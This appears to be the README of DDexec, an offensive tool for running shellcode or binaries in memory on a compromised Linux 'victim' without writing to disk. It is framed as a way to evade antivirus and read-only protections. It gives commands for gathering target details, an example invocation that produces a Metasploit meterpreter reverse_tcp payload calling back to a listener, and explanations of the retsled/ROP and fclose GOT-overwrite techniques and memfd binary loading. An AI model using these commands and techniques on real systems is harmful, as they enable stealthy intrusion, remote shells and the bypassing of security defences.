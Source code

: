 # DDexec

## Installation
```bash
sudo apt-get update
sudo apt-get install readelf objdump xclip -y # xclip is optional but recommended 
sudo pip3 install ROPGadget
```

## Execution
First of all you need to to **download some files from the victim system**:
- **Dowload the `dd` binary**. Find it with `command -v dd`. This is required.
- **Download the libc library**. Find it with `ldd $(command -v dd) | grep libc | cut -d' ' -f3`. *This is required with mode "retsled"*.
- **Get the Libc base address from the target executing: `printf "0x";(linux64 -R setarch $ARCH -R cat /proc/self/maps || setarch `arch` -R cat /proc/self/maps) | grep libc | head -n1 | cut -d'-' -f1`**

*Note that in the **STDOUT is only going to be printed the commands to execute in the victim machine**. Banner, information and logs are printed in STDERR.*

Then execute `DDexec.sh` with `xclip` and the **clipboard will be populated** with the command line you need to run in the victim system.
```bash
bash DDexec.sh -l /tmp/victim/libc.so.6 -d /tmp/victim/dd -a x86_64 -H 127.0.0.1 -P 4444 -p linux/x64/meterpreter/reverse_tcp | xclip -selection clipboard
```
**Paste the clipboard in the reverse-shell of the victim and the shellcode/binary will be run.**
*To run a binary you need to use the argument `-b`. Please, read the **Binary Load** section to learn how*

## Help
```
Use this program to execute shellcodes and binaries in memory.
Arguments:
    -h Print this help
    -d Path to the victim dd binary (you should download it from the victim). Find it with 'command -v dd' Required.
    -l Path to the victim libc (you should download it from the victim). Find it with 'ldd `command -v dd` | grep libc | cut -d' ' -f3'. Required with mode "retsled".
    -H LHOST to receive the meterpreter
    -P LPORT to receive the meterpreter.
    -p Metasploit payload (by default linux/x64/meterpreter/reverse_tcp)
    -a Architecture of the victim system. Get it with 'uname -m'. Required.
    -m Mode of memory load. By default fclose_got if dd binary not protected with full relro, if protected, retsled is forced.
    -s Shellcode to execute in hex "4831c0b002...". If msfvenom params are given, msfvenom will create a shellcode. By default a shellcode that echoes "Pwnd!" is used.
    -b Binary to load in memory. It has to be either statically linked or use the same dynamic libs as on a target machine.

e.g.: DDexec.sh -d /path/to/dd [-l /path/to/libc] -P 4444 -H 10.10.10.10 -a x86_64 [-m <fclose_got,retsled> (default fclose_got)] [-s <shellcode_hex>]
```

## Explanation
DDexec is a technique to **load arbitrary shellcodes and binaries in memory from a shell** in a linux system without needing to write anything into disk.

This can help you **avoid AVs and protections** (*like a filesystem mounted as Read Only*).

Basically, this program will prepare a cmd line that will make **`dd` overwrite itself during execution in memory and execute a defined shellcode or a different binary.**

Therefore, what the prepared cmd line is going to do is to use **`dd` to write a shellcode its own memory (via */proc/self/mem*) and then get control the RIP of the dd process to execute the shellcode**.

In order to control the RIP **2 techniques** are implemented in `DDexec.sh`:

### Retsled
**This technique was defined and developed by [Arget](https://github.com/arget13) a good friend of mine and a really awesome guy in binary exploitation.**

This technique uses a retsled to overwrite an important part of the stack of the proccess with the goal of overwritting a RIP address inside the stack with a series of RET. At the end of the retsled a ROP chain is located, so once the RIP is controled by a RET instruction of the retsled the execution will arrive to the ROP chain.

This ROP chain will read the shellcode usnig the `read()` function from `libc` and write it in `0x0000555555554000`.

*This technique generates a **bigger cmd line** than then next technique, maily because of the retsled, but **works with any `dd`**. It's the default teachnique when the dd binary is protected with full relro*

### fclose GOT
Based on the technique described in https://blog.sektor7.net/#!res/2018/pure-in-memory-linux.md this technique **writes the shellcode in the GOT** of the last function executed by `dd` before exiting: **`fclose`**. Therefore, when **`fclose` is executed, the shellcode will be executed instead**.

*This technique **won't work if the `dd` binary is protected with full relro** because then the GOT table isn't writable*


*Both techniques are possible because the **ASLR is disabled** when executing `dd` using `setarch`.*

### Binary load
This technique was taken from **https://blog.sektor7.net/#!res/2018/pure-in-memory-linux.mdaslr**.

In orer to **load a binary inside dd and execute it** the following steps are performed:
- Use a shellcode which will create a memfd file in a memory. This is done using the system call *memfd_create()* which creates an anonymous file and returns a file descriptor that refers to it. The file **behaves like a regular file. However, it lives in RAM** and is automatically released when all references to it are dropped.
- Inject the shellcode into a `dd` process (using one of the 2 previous techniques)
- 'suspend' the dd process (also done by the shellcode). Then, the memfd won't be deleted as long as the `dd` process is running.
- Write the binary to be executed inside the memfd file, and execute it.

To perform this steps with `DDexec.sh` you need to **indicate with the `-b` argument the path to the binary** you want to load in memory:
```bash
bash DDexec.sh -l /tmp/victim/libc.so.6 -d /tmp/victim/dd -a x86_64 -b /path/to/bin | xclip -selection clipboard
```
Then, **execute the new cmd line of the clipboard inside the target system**.
This will generate a new `dd` process which will have created and **exposed a memfd file** and suspended its execution (so it doesn't die).
You can see the new memf file exposed running:
```bash
ls -l /proc/$(pidof dd)/fd/
total 0
lrwx------ 1 kali kali 64 Dec 27 12:22 0 -> '/memfd:AAAA (deleted)'
lrwx------ 1 kali kali 64 Dec 27 12:25 2 -> /dev/pts/4
```
Notice how one of the file descriptors is **`memfd` aparently "deleted"**. Note how the fd is `0` (in this example).

Then, to **load the binary in memory** you just need to **write it in this file**. For that purpose `DDexec.sh` will have echoed **a cmd line prepared to decode the base64 of the binary and write it in the file descriptor** (*change the fd index of the cmd line if necessary*).

Just execute that cmd line in the target system. It will look like this:
```bash
# Change the fd number if necesSary
echo 'f0VMRgIBAQAAAAAAAAAAAAMAPgABAAAAYGEAAAAAAABAAAAAAAAAAGg3AgAAAAAAAAAAAEAAOAALAEAAHgAdA...' | base64 -d > /proc/\$(pidof dd)/fd/0
```

Once you have executed this cmd line, you will have **loaded the binary in memory in that memfd**. So you can just execute it as a normal binary:
```bash
# Doing this you will be executing the loaded binary
## Change the fd number if neceSsary
/proc/\$(pidof dd)/fd/0
```